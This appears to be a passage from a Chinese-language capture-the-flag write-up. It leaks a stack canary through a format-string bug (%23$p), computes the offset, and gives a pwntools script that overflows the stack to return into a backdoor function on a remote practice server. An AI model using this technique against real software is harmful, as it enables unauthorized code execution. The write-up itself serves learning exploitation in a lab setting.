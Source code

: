 4. 在函数sub_4008EB内发现了Canary保护机制，想到先使用字符串漏洞弄出Canary的值，再使用栈溢出漏洞返回到后门函数处拿到flag

![](截图\3.5.png)

5. 发现输入字符串偏移6个字节

![](截图\3.6.png)

6. 计算Canary和输入字符之间的偏移为23个字节：0x90-0x08=0x88   0x88/8=17   17+6=23

**exp**

```python
from pwn import *
p = remote('111.198.29.45','53957')

p.recvuntil("3. Exit the battle ")
p.sendline('2')
p.sendline('%23$p')
p.recvuntil('0x')

canary = int(p.recv(),16)
payload = "a" * 0x88 + p64(canary) + 'a' * 8 + p64(0x4008da)

p.recvuntil("3. Exit the battle ")
p.sendline('1')
p.sendline(payload)

p.interactive()
```

7. 执行结果
